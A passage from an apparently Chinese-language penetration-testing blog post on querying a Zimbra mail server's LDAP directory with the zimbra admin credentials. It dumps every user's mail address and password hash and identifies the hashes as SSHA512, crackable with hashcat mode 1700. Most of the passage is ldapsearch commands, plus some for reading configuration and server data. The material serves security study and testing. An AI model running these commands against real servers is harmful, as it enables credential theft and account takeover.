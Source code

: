 ```
/opt/zimbra/bin/ldapsearch -x -H ldap://mail.zimbra.com:389 -D "uid=zimbra,cn=admins,cn=zimbra" -w kwDhJ6L1V9
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-4-1/5-2.png)

3.加入筛选条件，只显示用户列表：

```
/opt/zimbra/bin/ldapsearch -x -H ldap://mail.zimbra.com:389 -D "uid=zimbra,cn=admins,cn=zimbra" -w kwDhJ6L1V9 "(&(objectClass=zimbraAccount))"
```

或者

```
/opt/zimbra/bin/ldapsearch -x -H ldap://mail.zimbra.com:389 -D "uid=zimbra,cn=admins,cn=zimbra" -w kwDhJ6L1V9 -b "ou=people,dc=zimbra,dc=com"
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-4-1/5-3.png)

可以注意到userPassword项为用户口令的hash

4.再次加入筛选条件，只显示用户名称和对应hash：

```
/opt/zimbra/bin/ldapsearch -x -H ldap://mail.zimbra.com:389 -D "uid=zimbra,cn=admins,cn=zimbra" -w kwDhJ6L1V9 "(&(objectClass=zimbraAccount))" mail userPassword
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-4-1/5-4.png)

其中导出的hash前12字节为固定字符`e1NTSEE1MTJ9`，经过base64解密后的内容为`{SSHA512}`，后面部分为SHA-512加密的字符，对应hashcat的Hash-Mode为1700

#### 补充1：其他ldap命令

查询zimbra配置信息：

```
/opt/zimbra/bin/ldapsearch -x -H ldap://mail.zimbra.com:389 -D "uid=zimbra,cn=admins,cn=zimbra" -w kwDhJ6L1V9 -b "cn=config,cn=zimbra"

/opt/zimbra/bin/ldapsearch -x -H ldap://mail.zimbra.com:389 -D "uid=zimbra,cn=admins,cn=zimbra" -w kwDhJ6L1V9 -b "cn=cos,cn=zimbra"
```

查询zimbra server配置信息：

```
/opt/zimbra/bin/ldapsearch -x -H ldap://mail.zimbra.com:389 -D "uid=zimbra,cn=admins,cn=zimbra" -w kwDhJ6L1V9 -b `"cn=servers,cn=zimbra"`
```
